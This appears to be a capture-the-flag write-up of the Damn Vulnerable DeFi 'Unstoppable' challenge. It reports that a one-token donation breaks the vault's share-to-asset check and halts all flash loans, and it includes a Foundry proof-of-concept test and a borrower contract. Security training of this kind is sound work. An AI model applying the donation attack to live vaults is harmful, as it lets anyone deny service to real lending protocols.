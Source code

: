 # High 

### [H-1] `Unstoppable::flashloan`, Flash loans can be haulted if balance of `Unstoppable::totalSupply` & `Unstoppable::totalAssets` are not 1:1. 

``` solidity 
        uint256 balanceBefore = totalAssets();
        // shares must be 1:1 with balance
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

### Proof of Code: Any account can hault flash loans if they send `Unstoppable` an unexpected amount of assets. 

``` solidity 

    function test_unstoppable() public checkSolvedByPlayer {

        uint256 _totalsupply = vault.totalSupply();
        uint256 shares = vault.convertToShares(_totalsupply);

        token.transfer(address(vault), 1);
        console.log("balance of vault: %s", vault.totalAssets());
        console.log("total number of shares: %s", shares);

        vm.expectRevert();
        vault.flashLoan(recipient, address(token), 2e18, "");
    }

```

``` diff

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;
+    FlashLoanRecipient public recipient;

    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
+      recipient = new FlashLoanRecipient(token,vault);
        token = new DamnValuableToken();
```



``` solidity 
contract FlashLoanRecipient is IERC3156FlashBorrower {
    DamnValuableToken public token;
    UnstoppableVault public vault;

    constructor(DamnValuableToken _token, UnstoppableVault _vault) {
        token = _token;
        vault = _vault;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        console.log("FlashLoan Recipient balance during execution: %s", DamnValuableToken(token).balanceOf(address(this)));

        DamnValuableToken(token).approve(address(vault), amount + fee);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
}
```
